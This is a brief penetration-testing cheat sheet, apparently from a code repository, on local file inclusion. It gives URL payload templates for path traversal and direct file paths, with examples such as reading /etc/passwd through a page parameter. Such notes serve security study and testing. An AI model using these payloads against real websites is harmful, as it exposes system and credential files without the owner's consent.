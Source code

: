 
# Exposing Sensitive Information

## LFI

### LFI Using Path Traversal

```Bash
<TARGET_URL>/example.php?page=<PATH_TRAVERSAL>
# Example: http://127.0.0.1/example.php?page=../../../../../../etc/passwd
```

### LFI Using the File's Path

```Bash
<TARGET_URL>/example.php?page=<DIRECTORY_PATH>
# Example: http://127.0.01/example.php?page=/var/www/html/index.html
```
